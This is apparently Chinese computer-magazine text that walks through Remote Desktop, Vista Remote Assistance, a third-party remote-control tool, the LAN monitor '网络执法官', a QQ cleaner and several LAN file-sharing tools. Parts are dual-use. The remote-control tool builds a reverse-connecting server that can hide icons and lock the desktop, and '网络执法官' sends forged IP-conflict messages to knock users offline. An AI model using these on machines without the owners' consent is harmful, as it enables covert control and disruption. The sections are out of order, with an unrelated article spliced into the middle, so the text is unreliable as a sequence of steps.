首先要开启远程桌面连接功能，于是MM在小武的指点下在自己的电脑上右键单击“我的电脑”，并选择“属性”按钮，打开“属性”对话框，切换到“远程”标签项下，在此勾选“允许用户远程连接到此计算机”复选框（如图1）。此时小武发现MM使用的电脑系统有多个用户，这样还需要选择一个登录计算机的用户，单击“选择远程用户”按钮，在打开的“远程桌面用户”对话框中单击“添加”按钮，随后在打开的“选择用户”对话框中输入当前系统的用户名称即可，这样以后就可以使用该用户名登录系统了。



> > 远程连接到此计算机的用户的帐户必须包含密码，没有密码的帐户不能进行登录。如果没有为当前用户设置密码，我们还可以在“控制面板”下的“用户帐户”项中为当前用户设置密码。

#### 2.主控端设置

MM开启了远程桌面功能后，下面小武还要对自己的电脑进行相应的设置。单击“开始”→“所有程序”→“附件”→“通讯”→“远程桌面连接”，打开远程桌面窗口（如图2）。第一次使用前我们需要进行相应设置，单击“选项”按钮，进入到登录界面的高级设置窗口中。


#### (1)设置对方用户信息

在“常规”标签项下我们首先在计算机文本框中输入要访问计算机的IP地址，随后在下面键入用户名、密码和域（如图3）。



#### (2)远程桌面属性设置

切换到“显示”项下，在“远程桌面大小”项下，可以拖动滑块来选择远程桌面的大小。在“颜色”列表中，选择所需的颜色分辨率，分辨率越低显示的访问速度越快。如果你想在本地电脑中听到远程电脑中的声音，在“本地资源”选项卡的“远程计算机声音”列表中选择“带到这台计算机”选项，这样我们就可以收听到对方计算机上的声音文件了。

切换到“程序”选项卡中，勾选“连接时启动以下程序”。在“程序路径和文件名”框中，键入在连接创建后要运行的程序路径和文件名。在此我们根据需要进行选择，如果不加载启动运行的程序，此项可以不填。随后切换到“高级”标签项下，选择网络连接的速度，我们可以根据自己宽带的速度而定，随后在下面的“允许以下功能”中勾选允许远程控制的功能（如图4）。



> > “允许以下功能”项中加载的功能越多远程访问的速度就越慢，我们可以根据需要勾选允许运行的功能，也可以使用默认设置。

#### (3)远程控制对方电脑

小武通过上面的设置后，下面就可以登录MM电脑了，单击“远程桌面连接”项中的“连接”按钮，这时系统开始连接到网络中搜索MM的计算机，成功连接到对方计算机后，弹出一个登录窗口（如图5），在此输入MM设置好的用户名和密码后即可成功登录到MM的电脑中了（如图6）。怎么样，操作对方电脑是不是和操作自己电脑一样方便。在此小武就可以通过桌面运行MM计算机的各种程序了。
如果想退出远程控制时，我们只需在MM桌面上单击“开始→断开”按钮，这样就可退出远程桌面连接。

## 网络加油站

### SOLUTIONS

小武使用“远程桌面连接”能轻松的帮助MM解决电脑中的一些问题。这样MM电脑有什么问题，就可以足不出户，轻松搞定了。可是今天MM让小武教她如何卸载电脑中一些不常用的软件，小武在QQ上说了半天也没说清楚，可是使用远程桌面连接时MM的电脑屏幕始终处于黑屏现象，MM并没有看到小武操作的过程，小武决定使用Vista提供的远程协助功能来帮助MM维护电脑，这样小武就可以边维护电脑，边让MM学习了。

### 二、电脑协助我用远程

#### 1.让MM发封求助信

使用Windows Vista系统中的远程协助时，首先MM要在自己的电脑上制作一个协助邀请文件，当我们接受该邀请文件后即可进行远程协助。
制作时，单击“开始→所有程序→维护→Windows远程协助”命令，启动“远程协助”程序。在程序主界面中单击“邀请信任的人帮助您”（如图7），进入到下一界面，在此程序提供了“使用电子邮件发送邀请”和“将这个邀请保存为文件”两种邀请方式（如图8）。在此建议使用第二种邀请方式，选择后在下一界面中设置好邀请文件保存的位置和接受邀请使用的密码（如图9）。随后单击“完成”，程序打开一个“等待连接”窗口（如图10）。这样邀请已经制作成功。随后在指定的位置看到一个名为“Invitation.msrcincident”的邀请文件。




#### 2.远程登录MM电脑

将制作成功的邀请文件，通过QQ文件传到小武电脑上，这样刚刚制作邀请文件的电脑变成了受控端。在主控端电脑上运行邀请文件，弹出一个“远程协助邀请”对话框（如图11），在此输入密码后，单击“是”程序开始远程连接受控电脑。连接成功后在受控电脑上弹出一个“是否允许该台电脑连接到您的计算机”对话框，在此单击“是”即可连接成功。连接后控制端即可显示受控电脑的桌面（如图12）。
在控制界面的上方工具栏中单击“设置”按钮，在设置界面中，我们可以设置“宽带使用情况”，一般情况下将其设置为“中等偏高”即可。







#### 3.远程演示

连接成功后，如果想控制受邀请电脑，我们可以在控制端的远程协助界面中单击“获取控制权”按钮。这样我们就可以轻松控制MM的电脑了，就可以在MM电脑上下载电影，同时MM也能在自己电脑上查看操作步骤。
在远程协助的过程中，如果MM没有看懂，我们还可以在远程协助窗口中的“聊天文本框”中输入要发送的文件信息和MM在线沟通。此外，在“远程协助”工具中还可以互传文件，方便了双方资源共享。
有了Windows Vista提供的远程协助功能，你是不是感觉远程维护方便多了。如果你也经常给对方维护电脑，不妨试试远程协助吧！

## 网络控制，我用远程

小武自从在单位当网管，总在不同的电脑上完成不同的操作，到晚上下班后还要打开几台电脑下载一些常用软件等。在使用多台电脑时，为了操作方便，小武决定在一台电脑上控制其它电脑的运行情况，那么如何在一台电脑上远程控制其它电脑呢？如何将下载的文件非常方便地传到其它办公电脑上呢？于是小武决定使用“远程控制任我行”，这样既能轻松地登录家中电脑，也能在两台电脑上互传文件，非常方便。

- 软件名称: 远程控制任我行
- 最新版本: V9.8
- 软件大小: 1650KB
- 下载地址: http://www.skycn.com/soft/14715.html

“远程控制任我行”是一款功能强大的远程控制功能，操作简单、登陆速度快，我们除了在客户端远程控制服务器端电脑的屏幕和远程语音外，还能和远程主机进行互传文件，维护对方计算机的注册表等实用功能。此外，程序还提供了强大的远程命令功能，通过该功能我们可以快速启动、关机、启用屏保等功能。有了这款软件，小武就可以随时查看和维护家中的电脑了。

### 1.生成服务器端程序

“远程控制任我行”程序提供了客户端和服务器端两个软件。小武首先登录到下载页面下载该程序的客户端程序，解压缩后运行其中的“netsys.exe”程序，弹出一个“远程控制任我行”控制窗口（如图13）。使用该程序远程控制前，先来生成一个服务器端程序。小武在控制界面中单击“配置服务器”按钮，打开选择配置类型对话框，程序提供了“正向连接”和“反向连接”两种形式，其中局域网中实现远程控制我们可以随意选择一种连接类型。如果你想在局域网中控制ADSL用户，需要选择正向连接。相反，如果我们在ADSL连接中控制局域网用户，需要选择反向连接。

### 2.登录家中电脑

小武回到办公室，启动“远程控制任我行”程序，在控制界面的“连接主机”项中需要输入家中电脑的IP地址，可是小武电脑没有公网IP地址，但ADSL每次拨号自动分配公网IP，于是小武双击“控制面板”→“网络连接”→“本地连接”，打开“本地连接”对话框，切换到“支持”标签项下就可以查看到本次连接的公网IP。IP地址输入后单击右侧的“连接”按钮，程序开始连接对方的服务器端程序，连接后，在下面的“远程电脑”列表中显示该远程电脑的所有分区（如图15）。

### 3.主机屏幕监视

连接成功后，小武迫不及待地想查看家中BT程序中下载的Office 2007文件是否完成。单击程序工具栏中的“屏幕监视”按钮，打开屏幕监视对话框，在此单击“连接”按钮，此时主机屏幕显示在该窗口中。单击“键盘”、“鼠标”按钮，我们就可以使用键盘和鼠标来控制主机了。如关闭程序、打开窗口等操作。通过使用发现，“远程控制任我行”中的屏幕监视，鼠标和键盘操作不如远程桌面连接操作灵活，但是双方计算机中都能看到操作过程。

### 4.下载远程电脑中的电影

“远程控制任我行”提供了一个远程管理功能，这样我们可以在远程电脑和本地电脑间进行文件传输。我们可以通过该功能将电影下载到办公室电脑中。下载时，在“远程文件管理”标签项下展开远程受控电脑的相应分区，找到下载的文件后，该文件将显示在程序的右侧窗口中。选中需要下载的文件并单击右键，在打开的右键菜单中选择“文件下载”命令，随后选择保存的文件夹即可（如图16）。此外我们可以通过右键菜单中的“文件上传”命令将本地文件上传到受控电脑中。

### 5.远程维护

在“远程控制任我行”中，程序还提供了强大的系统维护功能，这样能方便用户进行远程电脑维护。切换到在“远程控制任我行”中，我们还能随时查看远程主机基本信息，切换到“远程系统信息”标签项下，在此通过单击“查看”按钮，可以对远程主机的系统配置信息、剪切板信息、运行的窗体信息进行查看（如图17）。

# 网络加油站 SOLUTIONS

### 7.卸载服务器程序

“远程控制任我行”还提供了服务器端程序卸载功能，这样可以有助于我们不使用远程登录后删除服务器端程序，确保了系统安全。卸载时，只要在控制界面单击“卸载服务器程序”即可快速将服务器从远程主机上删除，非常方便。

“远程控制任我行”提供的功能确实丰富，有了该程序，小武再也不怕家中电脑没下载完程序关不了电脑了。

### 6.远程关机

在“远程控制任我行”中提供了丰富的远程控制命令，切换到“远程命令控制”对话框（如图18），在此我们可以通过远程桌面项目来隐藏远程桌面中的图标、任务栏、快速启动栏等，还可以对桌面上的各项进行锁定，使得其它用户无法使用。在“远程关机”项中我们可通过正常关机、重新启动、注销用户、进入休眠、启动屏保瞬间黑屏等命令随意控制远程主机，方便了远程主机的维护。

## 四、局域网管理，我用远程

最近单位内的局域网总是出现问题，如同事们私下乱改IP地址、一些同事利用上班时间上网聊天等，影响了单位同事们正常办公，为了能让局域网正常运行，网管使用了“网络执法官”远程管理工具，这样就可以对网络中的各个电脑进行管理，非常方便。在“用户列表”中选中修改IP地址的用户并单击右键。在弹出的右键菜单中选择“手工管理”命令，打开“手工管理”对话框。勾选了“IP冲突”项，随后单击“开始”按钮，“网络执法官”开始向该电脑发送IP冲突信息。这样对方电脑的任务栏右侧会弹出一个IP地址冲突的提示信息，随之该用户将被强迫下线，以后这台电脑只有修改了IP地址后才能上网。

软件名称：网络执法官
下载地址：http://www1.skycn.com/soft/9352.html

“网络执法官”（又叫长角牛网络监控机）就是一款局域网管理辅助软件，该软件可以在网内任一台主机上安装、运行，无须安装客户端程序即可有效监控该局域网内所有连接的电脑，它采用网络底层协议，能穿透各客户端防火墙对局域网中的每一台客户机进行监控，记录下各个计算机的IP、上线时间、下线时间等信息，并能有效对各个电脑的IP地址进行控制、管理。

### 1.扫描在线电脑

程序安装后会扫描出整个局域网内运行的电脑，并显示出当前电脑的信息。启动该程序，弹出一个“监控范围选择”对话框。在“指定监控范围”项中输入单位设置的局域网IP地址段。单击“添加/修改”按钮，这样刚刚添加的IP地址段将被添加到下面的IP列表中，单击“确定”按钮，进入到程序主界面。在程序主界面中显示出局域网内在线电脑的信息，包括网卡MAC地址、内网IP地址、用户名、上线时间、下线时间（如图19）。

> 很大单位的局域网划分了多段IP，这样的话我们可以进行多次添加。

### 2.IP管理

在程序主界面中，如果发现某些用户现在上网的IP地址和指定的IP地址不同，这说明该用户私下修改了IP地址，这时我们就可以对修改IP地址的用户进行控制。

### 3.IP保护

如果局域网内的电脑非常多，我们一一进行手工控制用户修改IP地址就显得非常麻烦了。此时我们可以启用IP保护工具，将未使用的IP地址保护起来，这样当用户修改了IP地址后，“网络执法官”会自动提示用户网络冲突。单击菜单中的“设置”→“IP保护”，打开“受保护IP”对话框（如图20），在“指定IP段”内输入受保护的IP地址段。单击“添加”按钮，将该IP地址段添加到“已受保护的IP段”中。

> 启用保护功能的IP地址所有用户都不能使用。如果受保护的IP地址不是连续的，在此我们可以继续设置其他IP保护段，程序支持最多设置64个IP保护段。

## 为QQ找个“清洁工”

QQ是最主流的网络即时聊天工具，随着使用时间的增长，大量的临时文件、广告文件等不经常使用的文件被存储在QQ目录中，由此导致QQ号码目录体积越来越大，占据了有限的磁盘空间。那么用什么办法能够安全地删除这些“垃圾文件”呢？

文/TMG Ik

下面就为你推荐一款专门用来清理QQ垃圾文件的绿色小软件——“QQ垃圾文件清理1.0”。这款软件体积小巧，界面美观，操作使用十分简单，只需轻轻点击一下就可以完成QQ垃圾文件清理。通过简单的设置，我们还可以使用“QQ垃圾文件清理1.0”选择垃圾文件被清理后是否放入回收站，使文件删除更安全；在完成垃圾文件清理时能够显示释放的空间大小；除此之外“QQ垃圾文件清理1.0”还附带有简单的其他清理功能，能清理大部分的系统垃圾文件，使得该软件在同类工具中可调胜出一筹。

下面就让我们一起来学习和使用“QQ垃圾文件清理1.0”。

## 一、软件下载

“QQ垃圾文件清理1.0”的下载较为方便，这里笔者为你推荐下载地址`http://www.onlinedown.net/soft/45648.htm`，该地址提供了不同下载工具的专用高速下载通道。下载后解压，直接双击`QQFileCleanQQcl.exe`图标即可打开程序主窗口。

`QQFileCleanQQcl.exe`主窗口包括“QQ清理”和“其他清理”两个选项卡，默认情况下打开的是“QQ清理”选项卡窗口。

## 二、QQ垃圾文件清理操作步骤

### 1. 选择QQ目录

QQ的默认目录为`C:\Program Files\Tencent\QQ\`。如果你在安装QQ程序时设置了不同的安装目录，可以通过单击程序主窗口右侧的“选择目录”按钮，在弹出的选择目录对话框中进行选择，然后单击“确认”即可。

选定QQ目录之后，软件主窗口列表框会列出选定目录下所有被记录的QQ号码。

### 2. 选择QQ文件清理种类

“QQ垃圾文件清理1.0”可以清理的文件种类包括：QQ临时文件、广告文件、QQ缓存文件、QQ更新临时文件、炫铃文件、魔法表情文件、QQ秀文件、接收到的表情/图片/头像、QQ场景文件、Q-Zone临时文件，这些文件都在“QQ清理”窗口列表框中列出。通过单击软件主窗口左下方的“全选”或“全不选”按钮可以同时选中或取消选中上述文件类型。通过勾选上述文件类型复选框，我们也可以根据自己的需要确定需要清理的文件类型。

### 3. 清理文件放入回收站

勾选主窗口左下方“清理的文件放入回收站”复选框，可以将被清理的文件放入回收站，并在删除前弹出确认对话框。否则“QQ垃圾文件清理1.0”将按照文件类型设置将搜索到的垃圾文件直接删除。

按照上述步骤完成设置之后，单击“立即清理”按钮开始清理选中类型的QQ文件。在清理结束时，主窗口会将所有删除的文件信息及释放硬盘空间大小详细列出。

## 三、其他清理功能使用

除了能够轻松处理QQ垃圾文件，“QQ垃圾文件清理1.0”还集成了一些系统清理功能，能够清理大部分的系统垃圾文件，包括：上网时产生的临时文件、网页浏览历史记录、系统临时文件、“开始”菜单中的文档记录、“开始”菜单中的运行记录、打开与保存文件的历史记录、Media Player播放记录、Real Player播放记录、访问网上邻居的记录、上网产生的cookie等。此外，该软件还提供了清空回收站功能。

使用与“QQ清理”相同的操作步骤，可以对上述文件类型和功能进行全部选中、取消选中或单独选取，同样也可设置清理文件是否放入回收站。清理完毕，软件会将所有清理文件信息详细列出。

### 4. 限制上网时间

为了不影响工作，很多单位都设置了上网时间，如某段时间内不能上网，或者只允许下午能上网，周六、日禁止上网等规定，在“网络执法官”中可以轻松对上网时间进行控制。

在用户列表中选中所有用户，随后单击工具栏中的“默认权限”设置按钮，打开“默认权限”对话框（如图21），在“设置权限”项中点选“受限用户，若违反以下权限被管理”单选项，在此勾选“启用时间限制”复选框。单击下面的“开放时间”，打开“每日时间段权限设置”对话框。在上面的红叉方格中点选上网的时间，每个方格代表30分钟。我们可以通过方格左右时间标识推算当前方格的时间，启用的时间为绿色“√”显示。设置周六、日不能上网，我们在下面的“六日权限”项中选择“全天禁止”，设置后单击“确定”即可。

> 小提示：设置了权限后，发现有新的用户登录，系统将会自动采用设置好的权限对新用户进行管理。

自从安装了“网络执法官”软件，局域网内的维护再也不用网管整天手工控制了。

通过上面的几种远程工具，维护网络中的电脑时，小武可以坐在办公室内就能搞定，再也不用楼上楼下的跑个不停了。

## 让局域网办公更轻松

如今无论是每天工作的单位，还是大学生所住的单位，几乎都离不开网络。这样给用户工作和学习提供了方便。可是小张所在的单位虽然架设了局域网，但是利用率实在不高。同事们除了借助局域网共享上网外，只有一部分同事通过网上邻居互传文件，网管员小张面对当前现象总感觉不舒服。于是小张决定改变当前现状，打造一个高效、方便的的局域网。怎样才能在局域网中更合理地发挥其性能？经过小张的研究摸索，发现了一些技巧，其实架设一个局域网并不如我们想象的那么难，下面我们就一起来了解一下如何打造一个方便快捷的局域网！

## 一、网管搭桥，让文件传输更方便

最近小张发现同事们在局域网内使用最多的就是资源共享、文件传输。一般情况下，很多同事都是通过网上邻居访问对方的文件夹来实现资源共享，如果每次传文件将文件夹设置为共享文件夹，这样既麻烦又不安全。小张为了能让各个科室间文件传输更快捷，决定架设一个文件传输服务器。这样就无需通过网上邻居一层层翻找了。架设文件传输服务器，其实并不难，只需一个小程序即可搞定。

### 1. WebFileShare的配置

架设文件传输服务器，小张使用的是“WebFileShare”文件传输工具，该工具无需过多的设置，操作简单。使用时，首先将“WebFileShare”程序安装在需要共享文件的电脑上，如果想在多个同事间共享文件，将该软件安装到各个电脑上即可。在使用“WebFileShare”共享文件前，我们先要对该软件进行相应的配置。

（1）端口设置
首先在“共享端口”项中输入一个访问的端口号，这样同事们就可以通过“IP地址+端口号”的方式访问该电脑中的共享文件了（如图1）。

（2）连接设置
使用“WebFileShare”进行文件共享时，单位内的所有电脑都可以访问这个电脑上的资源，这样也会给共享用户带了很多不便，在此我们可以对访问用户进行限制，单击“工具→功能设置”命令，打开“功能设置”对话框，切换到“连接”项中，勾选“不限制”复选框，随后设置好“最多同时进行的任务数”，这样同事们只能同时下载指定的任务（如图2）。在“同一IP最大的线程数”，设置好每一个同事最多只能同时下载我们指定数量的文件。

（3）上传设置
为了能让同事间进行文件互传，我们还可以设置好将自己的文件上传到对方电脑中。设置上传功能时在“功能设置”对话框切换到“上传”项下，在此设置好文件上传后保存的路径，上传用户名、密码等该项目（如图3）。

### 2. 添加文件

一次设置终身受用，上面各项设置后，单击工具栏中的“启用服务器”按钮，此时我们可以看到“共享网址”中出现了一串网址，如http://192.168.1.2:66/，这就是该文件共享服务器的访问地址，这样同事们就可以访问该服务器上的文件了。文件共享系统开启后，下面我们就可以将需要共享的文件添加到“WebFileShare”界面中。单击“共享文件”按钮，在打开的对话框中选择需要共享的文件，随后单击“打开”按钮即可将文件添加到“WebFileShare”列表中（如图4）。此外我们也可以通过共享文件夹的方式对该文件夹中的文件进行批量添加。

### 3. 文件访问

文件添加后，同事们就可以在自己的电脑上方便地访问该电脑上的共享文件了。首先在自己的电脑的IE地址栏中输入“WebFileShare”界面中的IP地址和端口号，打开一个“WebFileShare”客户端界面（如图5），在此我们可以直接将该文件下载到自己的电脑上。

### 4.上传文件

如果我们在访问“WebFileShare”程序中的共享文件时，也想将自己电脑上的文件共享给该同事，我们可以通过“WebFileShare”中的上传功能来完成。首先在客户端首页单击“上传文件”，打开文件上传界面，输入我们设置好的用户名和密码，随后单击“浏览”按钮选择需要上传的文件（如图6），随后单击“上传”按钮，这样就可以将该文件上传到设置好的上传文件夹中。

通过架设文件共享系统，查看共享文件时，同事们再也不用打开网络邻居进行一一翻找了，这样给同事们交流文件提供方便。

## 二、网络硬盘，让文件传输更便捷

在单位中，有一些同事在办公室，需要随时保存文件，并且经常在多台电脑上进行异地办公。如果经常使用优盘将文件拷来拷去，既不方便也不安全。为了方便用户间进行资料传输、存储，我们可以在局域网内搭建一个“网络硬盘”系统。这样用户可以随时随地保存和提取文件，再也不用因没有优盘而烦恼了。

“桃源网络硬盘”系统是一款功能强大的网络硬盘系统，只要将该程序安装到局域网内的其中一台电脑上，用户就可以非常方便地将自己的文件保存到自己的网络硬盘空间中了，以后还可以通过网络硬盘和其他同事进行文件共享、文件传递、文件提取等功能，给用户提供了方便。

- 软件名称：桃源网络硬盘
- 最新版本：5.2
- 文件大小：1.52MB
- 下载地址：http://www.mytaoyuan.com/

### 1.服务器端安装

使用“桃源网络硬盘”时，首先我们要将局域网内的一台电脑作为服务器，将“桃源网络硬盘”下载程序解压缩到任意文件夹中。随后在“控制面板”的“管理工具”中启动“Internet信息服务”，在“Internet信息服务”中依次展开“Internet信息服务”→“网站”，右键单击下面的“默认网站”随后弹出一个“下拉菜单”，在此选择“属性”命令，打开“默认网站属性“对话框，切换到“主目录”界面，在该界面的“本地路径”项中输入“桃源网络硬盘”程序的解压路径（如图7）。随后切换到“文档”标签项下，单击添加按钮，在此我们添加该网络硬盘的首页文件Index.aspx，添加后保存退出，其他项目保留默认设置即可。

> 小提示：桃源网络硬盘程序需要.NET Framework 2.0插件的支持，我们还要在服务器电脑上安装好该插件才能正常使用，下载地址:http://www.onlinedown.net/soft/38669.htm。

### 2.用户注册及登录

“网络硬盘”安装后，用户们可以在自己的电脑上打开IE浏览器，在地址栏输入服务器的IP地址即可访问（如图8）。“桃源网络硬盘”为每一个用户单独划分一个空间存储数据，保证用户数据的安全和方便管理。第一次使用时，我们需要进行用户注册，单击首页的“点击免费注册”按钮进入注册界面，在此输入好各项信息后，单击“现在注册”按钮即可注册成功。以后我们就可以在登录页面输入用户名和密码进行登录了。

### 3.文件的上传

成功申请了自己的网盘空间后，下面我们就可以上传自己的文件了。单击“上传”按钮，弹出一个“上传文件”对话框（如图9），单击“浏览”按钮，随后打开本地文件列表，在此选择需要上传的文件，随后在上传界面中单击“上传”按钮，即可将该文件上传到网络硬盘空间中。此外，程序还提供了一个多线程同时上传功能，程序最大支持20个文件同时上传。

### 4.共享文件的设置

“桃源网络硬盘”系统提供了一个非常方便、快捷的文件共享功能，当我们将网络硬盘中的某个文件共享后，其他用户不# 网络加油站 SOLUTIONS

用登录到我们的空间就能下载到我们共享的文件，确保了数据安全，也给文件传递带来方便。

共享文件时，在文件列表中选中需要共享的文件，单击“共享”按钮打开共享设置窗口（如图10）。在此根据需要设定“共享权限”，程序提供了共享给好友、所有人可见、指定人可见等选项，在此我们根据需要进行设置。

如果单位中某个用户没有网络硬盘空间来实现共享，我们就无法让该用户下载某个指定的文件了。桃源网络硬盘提供了文件提取功能，这样不用登录到该用户空间就能提取文件了，非常方便。

## 5.提取文件

这样其他用户要想下载共享资源时，只要点“公共共享”项下的“共享文件”按钮。在此显示出网络硬盘中所有用户的共享文件，我们就可以下载相应的共享文件了。

设置提取文件时，首先在自己的空间内勾选需要提取的文件，随后单击工具栏中的“提取码”按钮，在打开的提取码设置窗口中输入一个文件提取密码（如图11），确定退出即可。以后其他用户只要在“桃源网络硬盘”首页，单击“提取文件”，打开一个文件提取对话框，在此输入刚刚设置好的文件提取码，就可将该文件下载到本地硬盘中。

# 二、网络搜索，各取所需

在单位中还有很多同事习惯了使用共享文件夹进行文件共享，可是一些同事的共享文件夹经常调换，还有文件夹共享的太多，文件就会显得比较分散，这样同事们在共享文件夹中查找自己需要的资源就比较麻烦。为了解决这个问题，网管在网上下载了一款名为Lan Spider的软件，它能帮助我们在一台电脑上快速搜索该局域网中的所有共享文件。

- 软件名称：Lan Spider
- 最新版本：2.2.5
- 文件大小：985KB
- 下载地址：http://www.skycn.com/soft/36266.html

搜索到的文件都显示在右侧的“搜索列表”中（如图12）。在该类别中我们还可以查看搜索到文件的名称、位置、大小等信息。在下面的“计算机”列表中程序还显示出每个计算机上所搜索的文件个数。在搜索到的文件列表中我们可以对搜索的文件进行执行、复制、移动、删除的操作。

Lan Spider是一款多功能网络文件搜索工具，能多线程同时对局域网中我们需要的文件进行搜寻，并对结果进行多样化处理。同时在该窗口中对搜索的文件进行编辑、复制、移动、删除的操作，非常方便。

## 1.通过共享文件夹查找文件

搜索文件时，启动安装好的程序，首先在左侧窗口的“文件名”项中输入搜索文件的名称，包括扩展名。如果你想搜索某一类文件，如word文件，你可以在该输入框中输入“*.doc”。在搜索文件时如果需要输入文件中包含的内容，在此勾选下面的“包含文字”复选框并输入相关的内容即可。

单击下面的“刷新”按钮，Lan Spider会自动检测该局域网中所有联网的计算机，随后将查找到的计算机名称显示在“计算机”列表中。勾选需要进行搜索的计算机后，单击最下端的“开始搜索”按钮，Lan Spider便开始在选中的计算机中搜寻相关的文件，程序将不再赘述。利用 Lan Spider程序，用户就可以非常方便地搜索到局域网内所有共享文件夹中的文件，给用户们查找共享资源提供方便。

## 2.通过IP地址查找文件

除了上面的搜索方法外，Lan Spider还可以通过输入IP地址的方式进行搜索，操作过程和该方法相似，在此。

# 三、点对点通讯，即时沟通零障碍

最近单位领导为了防止同事们在办公的时间内使用QQ在线聊天或游戏，要求网管小张屏蔽了QQ等即时通讯工具。可是这样一来给那些经常通过QQ沟通的同事带来很多不便。那么怎么样才能在没有QQ的局域网内方便地和同事们进行沟通呢？我们只要装一款局域网内即时通讯工具一切都解决了。Vypress Chat（以下简称VC）就是这样一款软件，该软件不需要服务器支持，只要双方都使用这个能互通的软件，就可以轻松在局域网内发送信息、传输文件，方便了同事间的沟通。

- 软件名称：Vypress Chat
- 最新版本：2.1.5
- 文件大小：1.85MB
- 下载地址：http://www.vypress.com/download/

## 1.屏蔽QQ，聊天依旧

虽然屏蔽了QQ等聊天软件，我们可以通过VC与局域网内的各个用户进行即时沟通，非常方便。首先在局域网内各个电脑上安装该软件，程序安装后，在任务栏中生成一个Tray图标，双击该图标即可打开VC主界面。在右侧的用户列表中我们可以看到已经安装好的VC的用户，系统默认情况下以用户的计算机名称作为用户名。在此根据需要将该名称修改为自己的用户名。修改时，在“Your nickname”（你的昵称）项下输入喜欢的昵称即可。用户名修改后，在其他用户的在线列表中就可以显示我们的用户名了。

与某同事聊天时，在用户列表中双击当前用户的头像，打开聊天窗口，在此我们就可以像在QQ上聊天一样和同事在线联络了（如图13）。

## 2.即时传递文件

VC还提供了在线传递文件功能，这样我们可以通过VC边聊天边传文件了，单击聊天窗口中的“Send File”（发送文件），打开“发送文件”对话框（如图14），在“Name”项中单击“Browse”按钮，选择需要发送的文件并在下面的文本框中输入注释信息，随后单击“Send”按钮即可。当对方电脑上弹出一个接收信息窗口，在下面的“Incoming files path”选项中选择文件保存的路径后，单击“Accept”按钮，即可将该文件接收下来。

## 3.局域网内发通知

VC的主界面提供了一个在线发通知的功能，这个功能类似一个QQ群，通过这个我们可以非常方便地给在线的同事们同时发送信息，这样可给同事发送通知带来方便。

发送通知时，在程序主界面的文字输出窗口中，输入要发送的信息，单击回车键，即可将信息发送给在线的用户。收到信息后，在线用户可以随时对我们的信息继续回复（如图15）。

此外，在VC中我们还可以像在论坛一样发送一些日志或帖子，可以共同讨论一个问题。发布时，点主界面中的“Board”标签，切换到公告界面下，随后即可创建自己的帖子了。帖子发布后，其他用户会收到帖子发布信息，可以在Board界面进行浏览。

有了Vypress Chat，不仅能方便地与在线同事随时沟通，还能实现用户间日志共享，给局域网内用户交流提供方便。

最近单位特别的忙，大事小事没完没了，上班忙、下班回家也忙，在单位干不完的工作回家还要带着笔记本继续工作。由于是多次输入的资料，这些多次编辑的文档都分布在多台计算机中，整理起来非常麻烦。于是小张决定使用一款文件同步功能——FTP Synchronizer，有了这款同步工具，每次在不同计算机上编辑的文档，只需单击一个按钮即可更新到同一台电脑上，这样就方便多了。

## 软件信息

- 软件名称：FTP Synchronizer
- 软件版本：3.5 home版
- 软件大小：1.63MB
- 下载地址：http://www.ftpsynchronizer.com/

FTP Synchronizer是一款功能强大的FTP文件同步工具，有了这款软件我们只要在一台电脑上操作，随后就可以对远端电脑上的文件进行同步更新，免去了一个个手动传输的麻烦，节省了时间，给我们办公带来了方便。

## 1.开启FTP服务

使用FTP Synchronizer进行FTP数据同步，首先在远程电脑上开启FTP功能，然后才可以使用FTP Synchronizer同步更新的文件。

开启FTP服务器时，在桌面上右键单击“我的电脑”，在弹出的右键菜单中选择“管理”，打开“计算机管理”对话框，随后依次展开“服务和应用程序”→“Internet信息服务”→“FTP站点”。在下面的“默认FTP站点”上单击右键，选择“属性”命令，随后打开ftp属性对话框（如图16），在主目录标签项中指定需要更新文件的文件夹，随后在“安全帐户”项中清除“允许IIS控制密码”复选框，随后设置好ftp服务器的用户名和密码，这样ftp服务器即架设成功。

> 小提示：
> 如果你向多个ftp文件夹中更新文件，可以使用专业server-U来架设一个多用户ftp服务器。

## 2.创建一个同步任务

Ftp服务器架设成功后，下面就可以使用FTP Synchronizer同步文件了。首先创建一个需要同步更新的任务，启动FTP Synchronizer程序，弹出一个“Profile wizard”（任务向导）对话框，在“Profile name”（任务名称）中输入一个同步任务的名称。

（1）设置同步的FTP用户
单击“Next”进入到“Connection”（连接）界面，在“Address of the FTP server”（添加FTP服务器）项中小张输入了刚刚设置好的ftp地址或计算机名。在“Account on the server”项中点选“Use this account (用户登录)”方式进行登录。随后在下面的 “User Name” 和 “Password” 项中输入刚刚设置的Ftp登录用户名和密码（如图17）。

（2）设置需要同步的文件夹
接着小张单击 “Next” 按钮，进入到folders界面，在该界面需要设置本地和远程文件夹的同步目录。在Local folder项中输入本地文件夹，在Remote folders项中选择远程文件夹，这个远程文件夹就是ftp指定的文件夹或ftp服务器下的子文件夹。

（3）设置同步更新的文件类型
进入到 “Filters” 界面，在此我们设置需要同步的文件类型和过滤的文件类型，程序默认情况下同步所有类型的文件，如果我们只想同步某一类型的文件，进入到 “INclusion” 子窗口，在此单击右上角的 “+” 按钮，在弹出的菜单中选择需要添加的文件类型即可（如图18）。在 “Exclusion” 界面中添加过滤的不需要同步的文件类型。

（4）设置同步更新的方式
单击 “Next” 按钮，进入到 “Sync Method”（同步方式）界面，FTP Synchronizer程序提供了多种更新方式，依次为只更新远程文件、更新本地文件、远程和本地文件同步更新等几种方式，在此我们可以根据需要相应选择。通过上面的设置我们就可以对文件进行同步了。单击 “Next” 按钮，进入。

## 3.同步文件

通过上面的操作，小张创建了同步任务。以后小张就可以同步更新数据了。同步时在任务列表中单击需要更新项目的名称，随后单击主界面工具栏中的 “Run” 按钮，程序开始对服务器上的指定的Ftp文件夹进行更新，并且在左侧的窗口中显示出更新的项目（如图19）。

现在很多用户为了方便，都喜欢在笔记本上进行学习、办公。在单位中，使用笔记本用户可以通过上面的方法非常方便地进行文件共享。但是有些时候在单位或外地和同事交流时无法使用局域网，我们有无线网络，不过，我们如何和不在同一局域网内的笔记本等无线设备进行资料共享呢？其实我们可以使用无线网卡的 “点对点” 互联功能，和其他电脑搭建一个临时无线网络，这样就能非常方便地进行文件交换了。

其实设置无线网卡的点对点互联功能非常简单。

## 1.设置主机

首先我们将点对点互联的其中一台笔记本电脑作为主机，确保该电脑中的无线网卡已经启用，如果没有，可在 “控制面板” 的 “网络连接” 中，右键单击 “无线连接”，在右键菜单中选择 “启用” 即可。

